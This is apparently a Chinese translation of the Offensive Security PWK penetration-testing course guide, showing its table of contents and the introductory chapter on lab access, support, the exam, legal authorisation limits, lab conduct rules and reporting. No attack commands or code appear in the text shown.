# Kali Linux 渗透测试

## 3.2.5 管道

## 3.3 文本搜索与处理

### 3.3.1 `grep`

### 3.3.2 `sed`

### 3.3.3 `cut`

### 3.3.4 `awk`

### 3.3.5 实战示例

## 3.4 在命令行中编辑文件

### 3.4.1 `nano`

### 3.4.2 `vi`

## 3.5 比较文件

### 3.5.1 `comm`

### 3.5.2 `diff`

### 3.5.3 `vmdiff`

## 3.6 管理进程

### 3.6.1 后台运行进程 (`bg`)

### 3.6.2 任务控制：`jobs` 和 `fg`

### 3.6.3 进程控制：`ps` 和 `kill`

## 3.7 文件和命令监控

### 3.7.1 `tail`

### 3.7.2 `watch`

## 3.8 下载文件

### 3.8.1 `wget`

### 3.8.2 `curl`

### 3.8.3 `axel`

## 3.9 定制 Bash 环境

### 3.9.1 定制 Bash 历史记录

### 3.9.2 别名

### 3.9.3 持久化 Bash 定制

## 3.10 本章总结

## 4. 实用工具

### 4.1 Netcat

#### 4.1.1 连接到 TCP/UDP 端口

#### 4.1.2 监听 TCP/UDP 端口

#### 4.1.3 使用 Netcat 传输文件

#### 4.1.4 使用 Netcat 进行远程管理

### 4.2 Socat

#### 4.2.1 Netcat 与 Socat 对比

#### 4.2.2 Socat 文件传输

#### 4.2.3 Socat 反向 Shell

#### 4.2.4 Socat 加密绑定 Shell

### 4.3 PowerShell 和 Powercat

#### 4.3.1 PowerShell 文件传输

#### 4.3.2 PowerShell 反向 Shell

#### 4.3.3 PowerShell 绑定 Shell

#### 4.3.4 Powercat

#### 4.3.5 Powercat 文件传输

#### 4.3.6 Powercat 反向 Shell

#### 4.3.7 Powercat 绑定 Shell

#### 4.3.8 Powercat 独立载荷

### 4.4 Wireshark

#### 4.4.1 Wireshark 基础

#### 4.4.2 启动 Wireshark

#### 4.4.3 捕获过滤器

#### 4.4.4 显示过滤器

#### 4.4.5 跟踪 TCP 流

### 4.5 Tcpdump

#### 4.5.2 过滤流量

#### 4.5.3 高级头部过滤

### 4.6 本章总结

## 5. Bash 脚本编程

### 5.1 Bash 脚本编程入门

### 5.2 变量

#### 5.2.1 参数

#### 5.2.2 读取用户输入

### 5.3 If、Else、Elif 语句

### 5.4 布尔逻辑运算

### 5.5 循环

#### 5.5.1 For 循环

#### 5.5.2 While 循环


### 5.6 函数

### 5.7 实战示例

#### 5.7.1 实战 Bash 用法 - 示例 1

#### 5.7.2 实战 Bash 用法 - 示例 2

#### 5.7.3 实战 Bash 用法 - 示例 3

### 5.8 本章总结

## 6. 被动信息收集

### 6.1 做笔记

### 6.2 网站侦察

### 6.3 Whois 枚举

### 6.4 谷歌黑客攻击（搜索技巧）

### 6.5 Netcraft

### 6.6 Recon-ng

### 6.7 开源代码

### 6.8 Shodan

### 6.9 安全头扫描器

### 6.10 SSL 服务器测试

### 6.11 Pastebin

### 6.12 用户信息收集

#### 6.12.1 电子邮件收集

#### 6.12.2 密码泄露数据

### 6.13 社交媒体工具

#### 6.13.2 特定网站工具

### 6.14 Stack Overflow

### 6.15 信息收集框架

#### 6.15.1 OSINT 框架

#### 6.15.2 Maltego

### 6.16 本章总结

## 7. 主动信息收集

### 7.1 DNS 枚举

#### 7.1.1 与 DNS 服务器交互

#### 7.1.2 自动化查询

#### 7.1.3 正向查找暴力破解

#### 7.1.4 反向查找暴力破解

#### 7.1.5 DNS 区域传输

## 7. 网络服务枚举与漏洞扫描

#### 7.1.6 Kali Linux 中的相关工具

...

### 7.2 端口扫描

...

#### 7.2.1 TCP / UDP 扫描

...

#### 7.2.2 使用 Nmap 进行端口扫描

...

#### 7.2.3 Masscan

...

### 7.3 SMB 枚举

...

#### 7.3.1 扫描 NetBIOS 服务

...

#### 7.3.2 Nmap SMB NSE 脚本

...

### 7.4 NFS 枚举

...

#### 7.4.1 扫描 NFS 共享

...

#### 7.4.2 Nmap NFS NSE 脚本

...

### 7.5 SMTP 枚举

...

### 7.6 SNMP 枚举

...

#### 7.6.1 SNMP MIB 树

...

#### 7.6.2 扫描 SNMP

...

#### 7.6.3 Windows SNMP 枚举示例

...

### 7.7 小结

...

## 8. 漏洞扫描

### 8.1 漏洞扫描概述与考量

...

#### 8.1.1 漏洞扫描器的工作原理

...

#### 8.1.2 手动扫描与自动扫描

...

#### 8.1.3 互联网扫描与内部网络扫描

...

#### 8.1.4 认证扫描与未认证扫描

...

### 8.2 使用 Nessus 进行漏洞扫描

...

#### 8.2.1 安装 Nessus

...

#### 8.2.2 定义目标

...

#### 8.2.3 配置扫描定义

...

#### 8.2.4 使用 Nessus 进行未认证扫描

...

#### 8.2.5 使用 Nessus 进行认证扫描

...

#### 8.2.6 使用单个 Nessus 插件进行扫描

...

### 8.3 使用 Nmap 进行漏洞扫描

...

### 8.4 小结

...

## 9. Web 应用程序攻击

### 9.1 Web 应用程序评估方法论

...

### 9.2 Web 应用程序枚举

...

#### 9.2.1 检查 URL

...

#### 9.2.2 检查页面内容

...

#### 9.2.3 查看响应标头

...

#### 9.2.4 检查站点地图

...

#### 9.2.5 定位管理控制台

...

### 9.3 Web 应用程序评估工具

...

#### 9.3.2 DIRB

...

#### 9.3.3 Burp Suite

...

#### 9.3.4 Nikto

...

### 9.4 利用基于 Web 的漏洞

...

#### 9.4.1 利用管理控制台

...

#### 9.4.2 跨站脚本攻击 (XSS)

...

#### 9.4.3 目录遍历漏洞

...

#### 9.4.4 文件包含漏洞

...

#### 9.4.5 SQL 注入

...

### 9.5 进阶内容

...

#### 9.5.1 练习

...

### 9.6 小结

...

## 10. 缓冲区溢出简介

### 10.1 x86 架构简介

...

#### 10.1.1 程序内存

...

#### 10.1.2 CPU 寄存器

...

### 10.2 缓冲区溢出演练

...

#### 10.2.1 易受攻击的示例代码

...

#### 10.2.2 介绍 Immunity 调试器

...

#### 10.2.3 导航代码

...

#### 10.2.4 溢出缓冲区

...

#### 10.2.5 练习

...

### 10.3 小结

...

## 11. Windows 缓冲区溢出

### 11.1 发现漏洞

...

#### 11.1.1 模糊测试 HTTP 协议

...

### 11.2 Win32 缓冲区溢出利用

...

#### 11.2.1 关于 DEP、ASLR 和 CFG 的说明

...

#### 11.2.2 复现崩溃

...

#### 11.2.3 控制 EIP

...

#### 11.2.4 定位用于 Shellcode 的空间

...


#### 11.2.5 检查无效字符

...

#### 11.2.6 重定向执行流

...

#### 11.2.7 查找返回地址

...

#### 11.2.8 使用 Metasploit 生成 Shellcode

...

#### 11.2.9 获取 Shell

...

#### 11.2.10 改进利用代码

...

### 11.3 小结

...

## 12. Linux 缓冲区溢出

### 12.1 关于 DEP、ASLR 和金丝雀

...

### 12.2 复现崩溃

...

### 12.3 控制 EIP

...

### 12.4 定位用于 Shellcode 的空间

...

### 12.5 检查无效字符

...

### 12.6 查找返回地址

...

### 12.7 获取 Shell

...

### 12.8 小结

...

## 13. 客户端攻击

### 13.1 了解你的目标

#### 13.1.1 被动客户端信息收集

...

#### 13.1.2 主动客户端信息收集

...

### 13.2 利用 HTML 应用程序

#### 13.2.1 探索 HTML 应用程序

...

#### 13.2.2 HTA 攻击实战

...

### 13.3 利用 Microsoft Office

#### 13.3.1 安装 Microsoft Office

...

#### 13.3.2 Microsoft Word 宏

...

#### 13.3.3 对象链接与嵌入

...

#### 13.3.4 绕过保护视图

...

### 13.4 小结

...

## 14. 定位公开漏洞利用工具

### 14.1 警示说明

...

### 14.2 搜索漏洞利用工具

#### 14.2.1 在线漏洞利用资源

...

#### 14.2.2 离线漏洞利用资源

...

### 14.3 整合所有内容

...

### 14.4 小结

...

## 15. 修复漏洞利用工具

### 15.1 修复内存破坏漏洞利用

#### 15.1.1 概述与考量

...

#### 15.1.2 导入和检查漏洞利用工具

...

#### 15.1.3 交叉编译漏洞利用代码

...

#### 15.1.4 更改套接字信息

...

#### 15.1.5 更改返回地址

...

#### 15.1.6 更改有效载荷

...

#### 15.1.7 更改溢出缓冲区

...

### 15.2 修复 Web 漏洞利用工具

#### 15.2.1 考量与概述

...

#### 15.2.2 选择漏洞

...

#### 15.2.3 更改连接信息

...

#### 15.2.4 排查“索引超出范围”错误

...

### 15.3 小结

...

## 16. 文件传输

### 16.1 考量与准备

#### 16.1.1 传输攻击工具的危险性

...

#### 16.1.2 安装 Pure-FTPd

...

#### 16.1.3 非交互式 Shell

...

### 16.2 与 Windows 主机之间的文件传输

#### 16.2.1 非交互式 FTP 下载

...

#### 16.2.2 使用脚本语言进行 Windows 下载

...

#### 16.2.3 使用 exe2hex 和 PowerShell 进行 Windows 下载

...

#### 16.2.4 使用 Windows 脚本语言进行 Windows 上传

...

#### 16.2.5 使用 TFTP 上传文件

...

### 16.3 小结

...

## 17. 逃避杀毒软件

### 17.1 什么是杀毒软件

...

### 17.2 检测恶意代码的方法

#### 17.2.1 基于签名的检测

...

#### 17.2.2 启发式和基于行为的检测

...

### 17.3 绕过杀毒软件检测

#### 17.3.1 磁盘驻留规避

#### 17.3.2 内存驻留规避

#### 17.3.3 杀毒软件规避：实战示例

### 17.4 小结

## 18. 权限提升

### 18.1 信息收集

#### 18.1.1 手动枚举

#### 18.1.2 自动化枚举

### 18.2 Windows 权限提升示例

#### 18.2.1 理解 Windows 权限和完整性级别

#### 18.2.2 用户账户控制（UAC）简介

#### 18.2.3 用户账户控制（UAC）绕过：fodhelper.exe 案例研究

#### 18.2.4 不安全的文件权限：Serviio 案例研究

#### 18.2.5 利用未引用的服务路径

#### 18.2.6 Windows 内核漏洞：USBPcap 案例研究

### 18.3 Linux 权限提升示例

#### 18.3.1 理解 Linux 权限

#### 18.3.2 不安全的文件权限：Cron 案例研究

#### 18.3.3 不安全的文件权限：/etc/passwd 案例研究

#### 18.3.4 内核漏洞：CVE-2017-1000112 案例研究

### 18.4 小结

## 19. 密码攻击

### 19.1 字典

#### 19.1.1 标准字典

### 19.2 暴力破解字典

### 19.3 常见网络服务攻击方法

#### 19.3.1 使用 Medusa 进行 HTTP htcaccess 攻击

#### 19.3.2 使用 Crowbar 进行远程桌面协议攻击

#### 19.3.3 使用 THC-Hydra 进行 SSH 攻击

#### 19.3.4 使用 THC-Hydra 进行 HTTP POST 攻击

### 19.4 利用密码哈希

#### 19.4.1 获取密码哈希

#### 19.4.2 Windows 中的哈希传递

#### 19.4.3 密码破解

### 19.5 小结

## 20. 端口重定向与隧道

### 20.1 端口转发

#### 20.1.1 RINETD

### 20.2 SSH 隧道

#### 20.2.1 SSH 本地端口转发

#### 20.2.2 SSH 远程端口转发

#### 20.2.3 SSH 动态端口转发

### 20.3 PLINK.exe

### 20.4 NETSH

### 20.5 通过深度包检测进行 HTTP 隧道

### 20.6 小结

## 21. Active Directory 攻击

### 21.1 Active Directory 理论

### 21.2 Active Directory 枚举

#### 21.2.1 传统方法

#### 21.2.2 现代方法

#### 21.2.3 解析嵌套组

#### 21.2.4 当前登录用户

#### 21.2.5 通过服务主体名称进行枚举

### 21.3 Active Directory 认证

#### 21.3.1 NTLM 认证

#### 21.3.2 Kerberos 认证

#### 21.3.3 缓存凭证的存储与检索

#### 21.3.4 服务账户攻击

#### 21.3.5 低慢密码猜测

### 21.4 Active Directory 横向移动

#### 21.4.1 哈希传递

#### 21.4.2 哈希过传

#### 21.4.3 票据传递

#### 21.4.4 分布式组件对象模型

### 21.5 Active Directory 持久化

#### 21.5.1 黄金票据

#### 21.5.2 域控制器同步

### 21.6 小结


## 22. Metasploit 框架

### 22.1 Metasploit 用户界面与设置

#### 22.1.1 熟悉 MSF 语法

#### 22.1.2 Metasploit 数据库访问

#### 22.1.3 辅助模块

### 22.2 利用模块

#### 22.2.1 SyncBreeze Enterprise

### 22.3 Metasploit 载荷

#### 22.3.1 分阶段与非分阶段载荷

#### 22.3.2 Meterpreter 载荷

#### 22.3.3 使用 Meterpreter 进行实验

#### 22.3.4 可执行载荷

#### 22.3.5 Metasploit 多处理利用程序

#### 22.3.6 客户端攻击

#### 22.3.7 高级功能与传输方式

### 22.4 构建我们自己的 MSF 模块

### 22.5 使用 Metasploit 进行后渗透

#### 22.5.1 核心后渗透功能

#### 22.5.2 进程迁移

#### 22.5.3 后渗透模块


#### 22.5.4 使用 Metasploit 框架进行枢轴

### 22.6 Metasploit 自动化

### 22.7 小结

## 23. PowerShell Empire

### 23.1 安装、设置与使用

#### 23.1.1 PowerShell Empire 语法

#### 23.1.2 监听器与引导器

#### 23.1.3 Empire 代理

### 23.2 PowerShell 模块

#### 23.2.1 态势感知

#### 23.2.2 凭证与权限提升

#### 23.2.3 横向移动

### 23.3 在 Empire 和 Metasploit 之间切换

### 23.4 小结

## 24. 整合各个部分：渗透测试详解


### 24.1 公共网络枚举

### 24.2 针对 Web 应用

#### 24.2.1 Web 应用枚举

#### 24.2.2 SQL 注入利用

#### 24.2.3 密码破解

#### 24.2.4 枚举管理界面

#### 24.2.5 获取 Shell

#### 24.2.6 后渗透枚举

#### 24.2.7 创建稳定的枢轴点

### 24.3 针对数据库

#### 24.3.1 枚举

#### 24.3.2 尝试利用数据库

### 24.4 更深入地枚举 Web 应用服务器

#### 24.4.1 更彻底的后渗透

#### 24.4.2 权限提升

#### 24.4.3 查找数据库凭证

### 24.5 再次针对数据库

#### 24.5.1 利用

#### 24.5.2 后渗透枚举

#### 24.5.3 创建稳定的反向隧道

### 24.6 针对禽类服务器

#### 24.6.1 枚举

#### 24.6.2 利用（或只是登录）

#### 24.6.3 后渗透枚举

#### 24.6.4 未引用的搜索路径利用

#### 24.6.5 后渗透枚举

### 24.7 内部网络枚举

#### 24.7.1 回顾结果

### 24.8 针对 Jenkins 服务器

#### 24.8.1 应用枚举

#### 24.8.2 利用 Jenkins

#### 24.8.3 后渗透枚举

#### 24.8.4 权限提升

#### 24.8.5 后渗透枚举

### 24.9 针对域控制器

#### 24.9.1 利用域控制器

### 24.10 小结

## 25. 更努力地尝试：实验环境

### 25.1 真实生活模拟

### 25.2 机器依赖

### 25.3 解锁网络

### 25.4 路由

### 25.5 机器顺序与攻击向量

### 25.6 防火墙 / 路由器 / NAT

### 25.7 密码

### 25.8 小结


# 1. 使用 Kali Linux 进行渗透测试：课程概述

欢迎加入“使用 Kali Linux 进行渗透测试”（PWK）课程！

PWK 是为系统/网络管理员以及希望严肃且有意义地迈入专业渗透测试领域的安全专业人士而创建的。本课程将帮助你更好地理解恶意实体针对网络使用的攻击和技术。祝贺你迈出了这一步。很高兴你在这里。

## 1.1 关于 PWK 课程

让我们花点时间回顾一下课程本身及其各个组成部分。你现在应该可以访问以下内容：

- PWK 课程材料
- 内部 VPN 实验网络访问权限
- 学生论坛凭证
- 实时支持
- 一次 OSCP 考试机会

让我们逐一回顾这些项目。

### 1.1.1 PWK 课程材料

本课程包括此 PDF 格式的实验指南以及配套的课程视频。PDF 和视频涵盖的信息是重叠的，这意味着你可以先阅读实验指南，然后观看视频来填补空白，反之亦然。在某些模块中，实验指南比视频更详细。在其他情况下，视频可能比指南更好地传达某些信息。仔细关注两者都非常重要。

实验指南还在每章末尾包含练习。完成课程练习将帮助你在尝试发现并利用实验机器中的漏洞时变得更加高效。

### 1.1.2 访问内部 VPN 实验网络

您在课程开始日期收到的电子邮件欢迎包中包含您的 VPN 凭证和相应的 VPN 连接包。这些将使您能够访问内部 VPN 实验网络，您将在其中花费大量时间。

实验时间从课程开始时启动，并作为连续访问进行计量。仅在紧急情况下才能暂停实验时间。¹

如果您的实验时间到期或即将到期，您可以随时购买实验延期。要购买额外的实验时间，请使用发送到您电子邮件地址的个性化购买链接。如果您在现有实验访问仍有效期间购买了实验延期，您可以继续使用相同的 VPN 连接包。如果您在现有实验访问结束后购买了实验延期，您将收到一个新的 VPN 连接包。

### 1.1.3 进攻安全（Offensive Security）学生论坛

学生论坛²仅对进攻安全学生开放。您的论坛凭证也是电子邮件欢迎包的一部分。即使您的实验时间结束，访问权限也不会过期。在您通过 OSCP 考试很久之后，您仍可以继续享受论坛服务。

在论坛上，您可以提出问题、分享有趣的资源并提供技巧（只要没有剧透）。我们要求所有论坛成员注意他们的发帖内容，特别注意不要通过发布完整解决方案来破坏他人的整体课程体验。不体贴的帖子可能会被审核。

除了其他学生的帖子外，您还会找到有助于澄清课程中所述概念的额外资源。其中包括对部分实验机器的详细分步指导。这些分步指导旨在展示获得最佳结果所需的心态和方法论。

一旦您成功通过 OSCP 考试，您将获得访问证书持有人子论坛的权限。

### 1.1.4 实时支持

实时支持³将允许您直接与我们的人员管理员（Student Administrators）沟通。这些是进攻安全的工作人员，他们曾修读 PWK 课程并通过了 OSCP 认证考试。

人员管理员可随时协助解决技术问题，他们也可能能够澄清课程材料和练习中的项目。此外，如果您已尽力而为但在某台实验机器上完全卡住，人员管理员可能会提供一个小提示来帮助您继续前进。

请记住，人员管理员提供的信息将基于您能够提供的细节程度。您能提供更多关于已尝试操作和观察到的结果，效果就越好。

### 1.1.5 OSCP 考试机会

随您最初购买的 PWK 课程包含一次 OSCP 认证考试机会。⁴考试是可选的，因此是否参加由您决定。您在实验时间结束后有 120 天的时间来安排并完成考试。120 天后，该考试机会将失效。

如果您的考试机会失效，您可以购买额外的机会，并在购买日期起 120 天内参加考试。

如果您在仍有一次未使用的考试机会时购买了实验延期，您的考试机会的截止日期将推迟至实验延期结束后的 120 天。

要预订您的 OSCP 考试，请使用您的个性化考试安排链接。此链接包含在欢迎包邮件中。您也可以使用您的 PWK 控制面板找到该链接。

## 1.2 应对课程的总体策略

每个学生都是独一无二的，因此没有一种绝对最好的方式来应对本课程和材料。我们希望鼓励您以自己舒适的节奏通过课程。您还需要应用时间管理技能来保持正轨。

我们建议采用以下非常通用的方法对待课程材料：

- 复习欢迎邮件和课程信息邮件中包含的所有信息。
- 复习课程材料。
- 完成所有课程练习。
- 连接实验机器。

### 1.2.1 欢迎邮件和课程信息邮件

首先，花点时间阅读您在课程开始日期收到的邮件中包含的所有信息。这些邮件包含诸如您的 VPN 包、实验和论坛凭证以及控制面板 URL 等内容。它们还包含指向课程常见问题解答（FAQ）、特别有用的论坛线程以及支持页面的 URL。

### 1.2.2 课程材料

一旦您审阅了上述信息，您就可以深入课程材料。您可以选择从课程视频开始，然后复习实验指南中该模块的信息，或者根据您偏好的学习方式反之亦然。在学习课程材料的过程中，您可能需要重新观看或重读某些模块以完全掌握内容。

我们建议将课程视为马拉松而非短跑。不要害怕在继续推进课程之前花额外时间处理困难的概念。

### 1.2.3 课程练习

我们建议在进入下一个模块之前，完全完成每个模块末尾的练习。它们将测试您对材料的理解，并增强您前进的信心。

完成这些练习所需的时间和精力可能取决于您现有的技能集。请注意，某些练习难度较大，可能需要大量时间。我们希望鼓励您保持坚持不懈，特别是面对较难的练习。对于培养 Offsec“更努力尝试”的心态特别有帮助。

### 1.2.4 PWK 实验

一旦您完成了课程材料，您就应该准备好迎接实验，目标是将每台机器陷入受控状态并获得高权限交互 shell。

课程练习包含关于各种实验机器的信息，如果您在笔记方面很勤勉，您将拥有足够的信息去攻克实验中的一些“低垂果实”。

下一步是将课程中学到的过程应用于剩余网络，从执行彻底的信息收集开始，并利用受控机器的信息来针对额外的机器。如果您不知道如何应对某台特定机器，考虑将访问学生论坛作为第一步。

如果论坛未为您提供任何有用的信息，您应该联系实时支持，看看是否可以提供额外的指导。

## 1.3 获取支持


PWK 不是固定进度的课程。这意味着您可以按自己的节奏前进，花更多时间研究对您来说困难的主题。利用本课程的节奏，不要害怕花更长时间去攻克一个艰难的新主题或方法。没有什么比靠自己弄清楚某件事感觉更棒了！

话虽如此，有时联系支持是完全合适的。在此之前，请理解我们将期望您在深入实验之前已审阅过所有课程材料，并在需要时毫不犹豫地建议您回到课程材料。不仅如此，我们还希望您能自行深入研究该主题领域，进行额外的研究。

以下常见问题解答页面可能在您联系支持之前有助于回答您的一些问题（两者均可在无需 VPN 的情况下访问）：

- https://support.offensive-security.com/
- https://www.offensive-security.com/faq/

如果您的问题在那里没有涵盖，我们建议您查看学生论坛，该论坛也可以在内部 VPN 实验网络之外访问。如果您仍然无法找到所需的帮助，您可以通过访问支持页面上的实时支持⁵或发送邮件（help@offensive-security.com）来联系我们的人员管理员。

---

¹ (Offensive Security, 2019), https://www.offensive-security.com/faq/#can-pause-lab

² (Offensive Security, 2019), https://forums.offensive-security.com

³ (Offensive Security, 2019), https://support.offensive-security.com

⁴ (Offensive Security, 2019), https://support.offensive-security.com/pwk-general-questions/

⁵ (Offensive Security, 2019), https://support.offensive-security.com

## 1.4 关于渗透测试

渗透测试是一个针对目标或边界的持续研究和攻击循环。攻击应该是结构化的、经过计算的，并且在可能的情况下，在实现在生产目标之前先在实验室中验证。这是我们可视化渗透测试过程的方式：





*图 1：渗透测试方法论示意图*

正如模型所暗示的那样，你收集的信息越多，成功渗透的概率就越高。一旦你渗透了初始目标边界，你通常会重新开始这个循环。例如，你可能会收集关于内部网络的信息，以便更深入地渗透它。

最终，每位安全专业人员都会发展出基于其特定技术优势的个性化方法论。我们建议你查阅诸如 [开放式 Web 应用程序安全项目 (OWASP)]^{6} 等页面，以了解一些常用的渗透测试方法论。

## 1.5 法律声明

请花点时间阅读我们下方的正式版权声明。

在此之前，我们要解释的是，本出版物仅供您个人使用。任何对本出版物的复制，或将本出版物的全部或部分与任何第三方分享，均违反：

(a) 我们的知识产权  
(b) 您注册时接受的合同条款  
(c) 我们的学术政策


这包括：

- 通过将本出版物发布在任何第三方平台、存储库或社交媒体网站上，使其可供其他人使用
- 由于未采取足够措施保护本出版物而导致的无意识分享
- 将本出版物的全部或部分用于除您个人培训以外的任何目的，包括提供或告知其他培训课程的内容，或用于任何其他商业目的。

我们的学术政策可在 [https://www.offensive-security.com/legal-docs/](https://www.offensive-security.com/legal-docs/) 找到。若我们酌情发现您存在违规行为：

- 我们将撤销您已获得的所有 Offensive Security 认证
- 我们将永久取消您参加任何 Offensive Security 课程和考试的资格
- 我们将永久取消您未来进行任何 Offensive Security 购买的资格

以下文档包含课程的实验练习，且仅应在 Offensive Security 托管的实验环境中进行。请注意，实验指南中描述的大多数攻击如果尝试在未经明确授权进行测试和攻击的机器上执行，将是非法的。由于 Offensive Security 实验环境与互联网隔离，在实验内部执行攻击是安全的。Offensive Security 不授权您在其托管实验环境之外执行这些攻击，并否认对任何此类行为承担任何责任。

## 1.6 MegaCorporne.com 和 Sandbox.local 域

`megacorpone.com` 域及其子域代表一家由 Offensive Security 创建的虚构公司。它有一个看似存在漏洞的外部网络存在，非常适合在课程中说明某些概念。

请注意，此域在内部 VPN 实验网络之外可访问，且仅应在课程练习期间用于被动和主动信息收集。严禁主动尝试入侵它。

`sandbox.local` 域代表一个虚构的内部公司网络，用于使用课程中涵盖的方法和技术演示完整的渗透测试。

`sandbox.local` 域仅可通过 VPN 访问，作为您的实验访问的一部分。

## 1.7 关于 PWK VPN 实验

PWK 实验室提供了一个隔离的环境，其中包含各种易受攻击的机器。使用实验室来完成课程练习并练习课程材料中教授的技术。

下图是 PWK 实验室的简化示意图。



完成课程视频和 PDF 实验指南后，您将具备渗透实验室中大多数易受攻击机器所需的基本技能。最初，您将通过 VPN 连接到学生网络。随着课程的进展，您将开始入侵其他网络。某些机器将需要额外的研究和大量的决心才能被入侵。

每台机器都包含一个 `proof.txt` 文件，作为您入侵的奖杯，但请记住，目标并不是专门找到 `proof.txt` 文件。相反，您需要在每台机器上尝试获取 root/SYSTEM 级别的交互式 shell。某些机器还可能包含 `network-secret.txt` 文件。您可以将该文件的内容提交到您的控制面板，以解锁在 IT、开发和管理部门网络中将虚拟机恢复到原始状态的能力。

请注意，本指南（和视频）中列出的 IP 地址不一定反映 Offensive Security 实验室中的 IP 地址。不要试图逐字复制实验指南中的示例。您需要根据特定的实验室配置调整这些示例。

您应该攻击的目标机器是：

| 实验室 | 子网 | 目标起始 | 目标结束 |
| --- | --- | --- | --- |
| PWK | 10.11.1.0/24 | 10.11.1.1 | 10.11.1.254 |

*表 1 - Offensive Security 实验室目标范围*

您连接的实验室由多名不同的学生共享。我们限制每个实验室的学生人数，以将多名学生同时处理同一目标机器的可能性降至最低。

### 1.7.1 实验室警告

内部 VPN 实验网络是一个 hostile 环境，您不应在用于连接实验室的 Kali Linux 虚拟机上存储敏感信息。学生之间的 VPN 流量是不允许的，不过，您可以通过在不再使用服务时停止服务以及确保您的 Kali Linux 系统上的默认密码已被更改来帮助保护自己。

### 1.7.2 控制面板

登录到内部 VPN 实验网络后，您可以访问您的 PWK 控制面板。PWK 控制面板将帮助您还原您的客户端和实验室机器或预约考试。

当您找到 `network-secret.txt` 文件后，您将使用控制面板，提交文件内容，并解锁还原您发现的其他网络中位于的机器的能力。控制面板的 URL 列在欢迎包电子邮件中。

### 1.7.3 还原

每位学生每 24 小时提供十二次还原机会。还原功能使您能够将特定的实验室机器恢复到其原始状态。此计数器每天在 GMT +0 00:00 重置。如果您需要额外的还原次数，您可以通过电子邮件（help@offensive-security.com）联系学生管理员，或联系 [实时支持](https://support.offensive-security.com)^{7} 以重置您的还原计数器。

实验室机器还原之间的最小时间间隔为五分钟。

当选择下拉菜单以还原实验室机器时，您将能够看到该机器上次还原的时间。实验室中的某些机器将包含脚本，这些脚本会自动重启崩溃的服务或模拟用户操作。并非所有系统都如此，但在扫描或利用特定的目标机器时请考虑这一点。

我们建议您在开始扫描和攻击机器之前还原该机器，以确保该机器及其服务按设计运行。相反，一旦您完成对一台机器的操作，您也应该还原它，以消除攻击留下的任何痕迹，以免机器处于被利用的状态。


[^6]: (OWASP, 2019). [https://www.owasp.org/index.php/Penetration_testing_methodologies](https://www.owasp.org/index.php/Penetration_testing_methodologies)

[^7]: (Offensive Security, 2019). [https://support.offensive-security.com](https://support.offensive-security.com)


### 1.7.4 客户端机器

你将分配到三台专用的客户端机器，这些机器将配合课程材料和练习使用。这些机器包括一台 Windows 10 客户端、一台 Debian Linux 客户端和一台 Windows Server 2016 域控制器。

**每当连接到 VPN 时，你都需要通过学生控制面板重置你希望使用的机器。** 当你选择重置 Windows 10 或 Windows Server 2016 客户端时，这两台机器都会被重置。在你断开 VPN 连接一段时间后，你分配的客户端机器会自动关闭并重置到初始状态。

基于上述考虑，我们强烈建议你**不要在任何客户端机器上存储任何你不想丢失的信息**。

### 1.7.5 Kali 虚拟机

我们在课程期间提供供你使用的 VMware 镜像⁸是 Kali Linux 的默认 64 位版本。我们建议你通过电子邮件欢迎包中提供的 URL 下载并使用该 VMware 镜像。虽然你可以自由选择使用 VirtualBox 或 Hyper-V 镜像，甚至是你自己的 Kali 安装，但我们只能为提供的 VMware 镜像提供支持。这些镜像由 Offensive Security 提供，并不受 Kali Linux 项目团队的支持。

### 1.7.6 实验行为与实验限制

Offensive Security 实验环境是一个共享环境。在探索实验环境时，请记住以下几点：

- 避免更改用户密码。如果可能，请向系统添加新用户。如果进入机器的唯一方法是更改密码，请在完成对该特定机器的操作后，麻烦将其改回原状。
- 你在某台机器上禁用的任何防火墙规则，在获得所需的访问级别后都应恢复。
- 不要让机器处于不可利用的状态。
- 一旦你完成了工作，请删除机器上任何成功的（以及失败的）利用代码。如果可能，请创建一个目录来存储你的利用代码。这将最小化他人意外使用你的利用代码攻击目标的可能性。

你只需记住在使用完每台机器后对其进行重置，即可实现以上所有操作。要重置机器，请使用学生控制面板。

内部 VPN 实验网络中严格强制执行以下限制。如果你违反以下任何限制，Offensive Security 保留禁用你实验访问权限的权利。

1. 不要对网络进行 ARP 欺骗或任何其他类型的投毒或中间人攻击。
2. 除非权限提升绝对必要，否则不要删除或移动任何关键系统文件或提示。
3. 不要更改 `network-secret.txt` 或 `proof.txt` 文件的内容。
4. 不要故意扰乱正在实验环境中工作的其他学生。这包括但不限于：
    1. 关闭机器
    2. 将用户从机器上踢出
    3. 阻止特定的 IP 地址或范围
    4. 入侵其他学生的客户端或 Kali 机器

## 1.8 报告

报告撰写通常被视为渗透测试中必要之恶。不幸的是，许多技术高超且聪明的渗透测试人员并没有给予它应有的重视，但一份撰写良好且外观专业的报告有时比一份撰写糟糕但技术娴熟的报告能获得更多的积极关注。

由于撰写报告是任何渗透测试的一部分，并且也是 OSCP 考试的一部分，我们希望在你接触课程材料之前，花一点时间讨论报告撰写。我们希望现在审查这些准则能帮助你就如何解释渗透测试的操作、结果和成果进行思考。

报告撰写有许多不同的方法，我们并不声称 Offensive Security 的示例报告⁹是撰写报告的最佳方式。如果该示例有帮助，请随意使用。如果没有，请随意更改设计或创建更适合你的其他内容。

当我们撰写报告时，我们认为有一些通用准则需要牢记。这些准则没有特定的顺序列出，因为它们同样重要。

### 1.8.1 考虑目标

